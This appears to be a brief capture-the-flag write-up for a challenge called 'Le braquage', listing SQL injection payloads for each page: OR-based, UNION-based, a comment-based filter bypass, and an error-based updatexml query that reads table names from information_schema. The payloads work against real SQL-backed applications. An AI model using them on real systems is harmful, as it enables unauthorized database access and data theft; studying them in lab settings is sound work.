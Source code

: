 # Le braquage

This challenge focuses on SQL injections.

## Page1

OR based SQLI
```
' or '1'='1
```

## Page2

UNION based SQLI
```
' union select 1-- -
```

## Page3

Filter bypass
```
'/**/or/**/'1'='1
```

Error based
```
' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```

